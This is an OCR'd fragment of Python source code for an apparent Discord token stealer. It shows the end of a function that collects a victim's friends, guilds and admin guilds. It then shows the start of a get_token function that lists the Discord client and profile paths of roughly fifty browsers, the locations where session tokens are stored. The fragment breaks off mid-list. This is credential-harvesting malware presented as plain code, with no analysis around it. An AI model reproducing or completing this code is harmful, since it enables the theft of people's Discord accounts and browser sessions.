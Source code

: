     return {
        'friends': friends_info,
        'guilds': guilds_info,
        'admin_guilds': admin_guilds,
        'friends_count': len(friends_info),
        'guilds_count': len(guilds_info),
        'admin_guilds_count': len(admin_guilds)
    }

def get_token():
    already_check = []
    checker = []
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')
    chrome = local + "\\Google\\Chrome\\User Data"
    paths = {
        'Discord': roaming + '\\discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Lightcord': roaming + '\\Lightcord',
        'Discord PTB': roaming + '\\discordptb',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Opera GX': roaming + '\\Opera Software\\Opera GX Stable',
        'Amigo': local + '\\Amigo\\User Data',
        'Torch': local + '\\Torch\\User Data',
        'Kometa': local + '\\Kometa\\User Data',
        'Orbitum': local + '\\Orbitum\\User Data',
        'CentBrowser': local + '\\CentBrowser\\User Data',
        '7Star': local + '\\7Star\\7Star\\User Data',
        'Sputnik': local + '\\Sputnik\\Sputnik\\User Data',
        'Vivaldi': local + '\\Vivaldi\\User Data\\Default',
        'Chrome SxS': local + '\\Google\\Chrome SxS\\User Data',
        'Chrome': chrome + '\\Default',
        'Epic Privacy Browser': local + '\\Epic Privacy Browser\\User Data',
        'Microsoft Edge': local + '\\Microsoft\\Edge\\User Data\\Default',
        'Uran': local + '\\uCozMedia\\Uran\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Iridium': local + '\\Iridium\\User Data\\Default',
        'Thorium': local + '\\Thorium\\User Data\\Default',
        'Chromium': local + '\\Chromium\\User Data\\Default',
        'Slimjet': local + '\\Slimjet\\User Data\\Default',
        'Avast Browser': local + '\\AVAST Software\\Browser\\User Data\\Default',
        'SRWare Iron': local + '\\Chromium\\User Data\\Default',
        'Comodo Dragon': local + '\\Comodo\\Dragon\\User Data\\Default',
        'Coc Coc': local + '\\CocCoc\\Browser\\User Data\\Default',
        'Blisk': local + '\\Blisk\\User Data\\Default',
        'Maxthon': local + '\\Maxthon5\\Users\\Default',
        'K-Meleon': local + '\\K-Meleon',
        'Citrio': local + '\\CatalinaGroup\\Citrio\\User Data\\Default',
        'Sleipnir 6': local + '\\Fenrir Inc\\Sleipnir5\\setting\\modules\\ChromiumViewer',
        'Falkon': roaming + '\\falkon',
        'Mozilla Firefox': roaming + '\\Mozilla\\Firefox\\Profiles',
        'Pale Moon': roaming + '\\Moonchild Productions\\Pale Moon\\Profiles',
        'Waterfox': roaming + '\\Waterfox\\Profiles',
        'LibreWolf': roaming + '\\LibreWolf\\Profiles',
        'Whale': local + '\\Naver\\Naver Whale\\User Data\\Default',
        'Cent': local + '\\CentBrowser\\User Data\\Default',
        'Elements Browser': local + '\\Elements Browser\\User Data\\Default',
        'Chromodo': local + '\\Chromodo\\User Data\\Default',
        'Superbird': local + '\\Superbird\\User Data\\Default',
        'Arc': local + '\\Arc\\User Data\\Default',
        'Sidekick': local + '\\Sidekick\\User Data\\Default',
        'QQBrowser': local + '\\Tencent\\QQBrowser\\User Data\\Default',
        '360 Browser': local + '\\360Chrome\\Chrome\\User Data\\Default',